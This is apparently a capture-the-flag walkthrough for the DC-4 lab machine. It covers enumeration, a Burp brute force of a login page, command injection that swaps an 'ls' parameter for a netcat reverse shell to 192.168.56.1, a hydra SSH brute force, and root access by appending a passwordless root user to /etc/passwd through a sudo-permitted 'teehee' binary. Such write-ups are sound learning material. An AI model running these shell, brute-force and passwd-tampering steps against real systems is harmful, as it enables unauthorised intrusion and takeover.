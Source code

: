 # DC - 4

nmap enumeration

![](../.gitbook/assets/aaaaaaaaaaaaa%20%281%29.png)

directory discovery

![](../.gitbook/assets/image%20%2814%29.png)

we have a login page in /login.php

![](../.gitbook/assets/image%20%282%29.png)

after a bruteforce with burp and rockyou:

username: Admin

 password: happy

![](../.gitbook/assets/image%20%285%29.png)

click on command

![](../.gitbook/assets/image%20%284%29.png)

click run and intercept the request with burp

we can see the command sending to the server:

![](../.gitbook/assets/image%20%281%29.png)

in this case its ls -l the additional + is for encoding.

we can use this to get a shell

change the ls command to this:

```text
nc+192.168.56.1+6666+-e+/bin/bash
```

![](../.gitbook/assets/image%20%2811%29.png)

run a listener and get a shell:

![](../.gitbook/assets/image%20%2810%29.png)

![](../.gitbook/assets/image%20%2819%29.png)

![](../.gitbook/assets/image%20%2812%29.png)

we have a wordlist of old passwords, try it with hydra for usernames jim, sam and charles

```text
 hydra -L users -P wordlist 192.168.56.165 ssh -vvv -t 4
```

![](../.gitbook/assets/image%20%2815%29.png)

username: jim

 passsword: jibril04

![](../.gitbook/assets/image%20%2823%29.png)

![](../.gitbook/assets/image%20%2820%29.png)

nothing comes out of these files

lets look for other vectors:

![](../.gitbook/assets/image%20%2813%29.png)

no useful suid/sgid files



![](../.gitbook/assets/image%20%2817%29.png)

no cron jobs

![](../.gitbook/assets/image%20%2821%29.png)

lets check the mails:

cat /var/mail/jim

![](../.gitbook/assets/image%20%287%29.png)

login to charles:

![](../.gitbook/assets/image%20%2824%29.png)

here we have sudo access:



![](../.gitbook/assets/image%20%286%29.png)

we can run a binary named teehee without password

![](../.gitbook/assets/image%20%2818%29.png)

it says that it can:

Copy standard input to each FILE, and also to standard output

#### this means whatever we give \(pipe\) to the binary executable it will append to the specified file as an argument and it is executed with sudo and without password so it can access any file on the system including /etc/shadow and /etc/passwd

so we can add a new entry to /etc/passwd \( a new root user\)

```text
echo "root2::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
```

su root2

![](../.gitbook/assets/image%20%2816%29.png)

done !



